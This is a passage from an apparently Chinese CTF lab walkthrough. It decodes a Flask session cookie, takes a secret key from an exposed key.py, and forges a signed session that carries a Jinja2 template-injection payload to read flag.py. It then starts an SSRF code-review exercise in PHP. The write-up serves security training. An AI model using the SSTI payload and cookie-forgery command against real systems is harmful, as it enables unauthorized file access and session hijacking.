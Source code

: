 ```python
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    # 由于我是在 pycharm 运行，为了方便直接将 session 赋值给 payload
    payload = "eyJuMWNvZGUiOm51bGx9.YFVHSw.M_DdKDNd7WMbknyVKSDJ9Y25Z7Q"
    print(decryption(payload.encode()))
    # print(decryption(sys.argv[1].encode())) 
```
> {'n1code': None}

11. flask的 session 伪造需要一个密钥。接下来需要获得`SECRET_KEY`。在 server.py 源码中有执行 key.py 文件的操作，即`execfile('key.py')`，所以尝试直接访问`key.py`，成功获得内容：#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'

12. 接下来是构造 payload。使用知识点中列的博文里的 payload 很多都失败了，我最终成功的形式：`{{[].__class__.__mro__[1].__subclasses__()[40](\'flag.py\').read()}}'}"`，使用`flask-session-cookie-manager`完整的命令形式：`python3 flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code' : '{{[].__class__.__mro__[1].__subclasses__()[40](\'flag.py\').read()}}'}"`
   - flask-session-cookie-manager：Flask Session Cookie Decoder/Encoder，可以用来对 flask session cookie 编码/解码，实际上第10步也可以用这个来解码
   - `Drmhze6EPcv0fN_81Bj-nA`，从 key.py 中获得的密钥
   - 整个流程：1. 先对原始 session 解码获得 session 的形式  2. 获取`SECRET_KEY`  3. 构造 payload  4. 按照解码获得 session 的形式构造 session，再通过`flask-session-cookie-manager`使用 key 加密编码。

13. 将`flask-session-cookie-manager`获得的编码放到请求包的 session 中，再向服务器发送该包，成功获得 flag.py
    ![afr](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/wp_afr_3_flag.png)


# 第二章 Web 进阶
## 2.1 SSRF漏洞
1.  进入环境，点击 intersting challenge，代码审计。更详细的代码审计可以看这篇[博客](https://blog.csdn.net/wuyaowangchuan/article/details/110433971)
```php
<?php 
highlight_file(__FILE__);  # 高亮显示当前文件
function check_inner_ip($url) 
{ 
    $match_result=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url); 
    // ^ 匹配行的开始
    // (xyz) 字符组，按照确切的顺序匹配字符 xyz
    // | 分支结构，匹配符号之前的字符或后面的字符
    // ? 	匹配前面的子表达式零次或一次，或指明一个非贪婪限定符
    // \ 转义符，它可以还原元字符原来的含义，允许你匹配保留字符 [ ] ( ) { } . * + ? ^ $ \ |
    // . 匹配除换行符以外的任意字符
    // * 匹配前面的子表达式零次或多次
    // $ 匹配行的结束

    if (!$match_result) 
    { 
        die('url fomat error'); 
    } 
    try 
    { 
        $url_parse=parse_url($url); 
```